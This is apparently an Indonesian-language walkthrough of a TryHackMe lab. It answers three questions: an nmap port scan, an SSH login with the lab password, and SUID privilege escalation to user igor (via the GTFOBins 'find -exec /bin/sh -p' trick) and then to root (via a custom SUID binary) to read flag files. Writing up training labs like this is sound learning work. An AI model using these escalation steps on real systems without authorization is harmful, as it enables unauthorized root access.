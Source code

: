 hidupkan THM machine untuk menyelesaikan task.

<br>Q1:What port is SSH running on?
<br>Q2:Find and run a ile as igor. Read the file /home/igor/flag1.txt
<br>Q3:Find another binary file that has SUID bit set. Using this file, can you become the root
user and read the /root/flag2.txt file?


<br>A1:
gunakan `nmap` untuk melakukan scanning port. untuk melakukannya secara lebih cepat,
dapat menggunakan command berikut:
```shell
nmap -p- -v --min-parallelism 100 <IP>
```

<br>A2:
selanjutnya konek ke ssh dengan user, ip dan port yang sudah didapatkan dengan command
```shell
ssh holly@<IP> -p PORT

enter password : tuD@4vt0G*TU
```
untuk dapat membaca flag1.txt kita perlu menjadi user `igor`. kita dapat melakukannya dengan
melakukan privilege escalation dengan mencari file SUID binary. kita dapat melakukannya
dengan command
```shell
find / -perm /4000 -exec ls -la {} \; 2>/dev/null
```
nantinya akan ketemu file SUID milik igor, yang dapat di eksekusi juga oleh grup, yaitu
`/usr/bin/find`. kita dapat melakukan privesc dengan command yang sudah disediakan oleh
[GTFOBins](gtfobins.github.io), yaitu
```shell
<full path of file>/find . -exec /bin/sh -p \; -quit
```
setelah kita run, maka nantinya kita dapat berpindah menjadi user igor, kita dapat
mengeceknya dengan run command `whoami`. jika sudah, kita dapat melihat isi dari
flag1.txt dengan cara
```shell
cat /home/igor/flag1.txt
```

<br>A3:
untuk dapat berpindah privilege yang lebih tinggi, yaitu menjadi `root`, kita perlu mencari
file SUID yang lain. dan yang bisa kita gunakan adalah file `/usr/bin/system-control`.
ketika kita langsung memasukkan itu dalam command, nantinya kita dapat input command dan
dijalankan sebagai root. jadi kita bisa melihat isi dari flag yang kedua
```shell
holly@ip-10-10-156-19:~$ /usr/bin/system-control

===== System Control Binary =====

Enter system command: ls /root
flag2.txt  snap

holly@ip-10-10-156-19:~$ /usr/bin/system-control

===== System Control Binary =====

Enter system command: cat /root/flag2.txt
```
